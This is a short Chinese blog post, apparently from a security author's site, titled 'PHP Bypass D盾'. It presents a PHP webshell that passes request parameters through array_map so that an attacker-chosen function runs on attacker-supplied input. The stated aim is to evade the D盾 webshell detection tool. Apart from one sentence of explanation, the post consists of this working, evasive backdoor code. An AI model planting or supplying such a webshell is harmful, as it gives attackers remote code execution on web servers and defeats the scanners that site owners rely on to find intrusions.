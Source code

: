 ```yaml
---
title: "PHP Bypass D盾"
date: 2018-02-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php', 'bypass']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


PHP Bypass D盾

<!--more-->

**原理**

通过 array_map 对 GET 的参数进行回调, 其中 1 为回调函数, 2 和 3 分别为在回调函数内的 POST 和 GET 参数

```
<?php

@$a = array($_POST['2'],$_GET['3']);
@array_map($b=$_GET['1'],$c=$a);

?>
```